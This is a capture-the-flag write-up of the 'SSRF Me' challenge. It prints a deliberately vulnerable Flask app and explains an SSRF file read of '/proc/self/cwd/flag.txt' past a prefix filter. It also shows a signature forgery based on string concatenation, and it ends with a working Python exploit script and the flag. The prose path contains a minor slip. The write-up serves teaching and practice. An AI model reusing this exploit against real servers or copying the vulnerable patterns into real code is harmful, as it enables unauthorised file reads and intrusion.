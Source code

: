 # SSRF Me - Writeup 
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```
#! /usr/bin/env python 
#encoding=utf-8 
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 

reload(sys) 
sys.setdefaultencoding('latin1') 
app = Flask(__name__) 
secert_key = os.urandom(16) 

class Task: 
	def __init__(self, action, param, sign, ip): 
		self.action = action 
		self.param = param 
		self.sign = sign 
		self.sandbox = md5(ip) 
		if(not os.path.exists(self.sandbox)): 
			#SandBox For Remote_Addr 
			os.mkdir(self.sandbox) 

	def Exec(self): 
		result = {} 
		result['code'] = 500 
		if (self.checkSign()): 
			if "scan" in self.action: 
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
				resp = scan(self.param) 
				if (resp == "Connection Timeout"): 
					result['data'] = resp 
				else: 
					print resp 
					tmpfile.write(resp) 
					tmpfile.close()
					result['code'] = 200 
			if "read" in self.action: 
				f = open("./%s/result.txt" % self.sandbox, 'r') 
				result['code'] = 200 
				result['data'] = f.read() 
			if result['code'] == 500: 
				result['data'] = "Action Error" 
		else: 
			result['code'] = 500 
			result['msg'] = "Sign Error" 
		return result 

	def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False 

#generate Sign For Action Scan. 
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
	action = urllib.unquote(request.cookies.get("action")) 
	param = urllib.unquote(request.args.get("param", "")) 
	sign = urllib.unquote(request.cookies.get("sign")) 
	ip = request.remote_addr 
	if(waf(param)): 
		return "No Hacker!!!!" 
	task = Task(action, param, sign, ip) 
	return json.dumps(task.Exec()) 

@app.route('/') 
def index(): 
	return open("code.txt","r").read() 

def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 

def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content): 
	return hashlib.md5(content).hexdigest()

def waf(param): 
	check=param.strip().lower() 
	if check.startswith("gopher") or check.startswith("file"): 
		return True 
	else: 
		return False 

if __name__ == '__main__': 
	app.debug = False 
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```
task = Task(action, param, sign, ip) 
return json.dumps(task.Exec()) 
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```
def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```
def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 
``` 

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```
if "scan" in self.action: 
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
	resp = scan(self.param) 
	if (resp == "Connection Timeout"): 
		result['data'] = resp 
	else: 
		print resp 
		tmpfile.write(resp) 
		tmpfile.close()
		result['code'] = 200 
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```
if "read" in self.action: 
	f = open("./%s/result.txt" % self.sandbox, 'r') 
	result['code'] = 200 
	result['data'] = f.read() 
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```
def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` with a `"/"` would attempt to read files from the root of the file system. The challenge hint says...

>flag is in ./flag.txt

...however we do not know the current working directory (CWD) and therefore where `"."` is. We can use a trick to get past this. `"/proc/self/cwd"` is a symlink to the process' CWD. We can read the flag with `"/proc/self/cwd/flag.txt"`.

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"/proc/self/flag.txtread"` (the value of `action` will be `"scan"`) and generate the *same* hash as if we pass `param` as `"/proc/self/flag.txt"` and `action` as `"readscan"`.

```"/proc/self/flag.txtread"+"scan" == "/proc/self/flag.txt"+"readscan"```

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

###Full Code:

```
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "/proc/self/cwd/flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
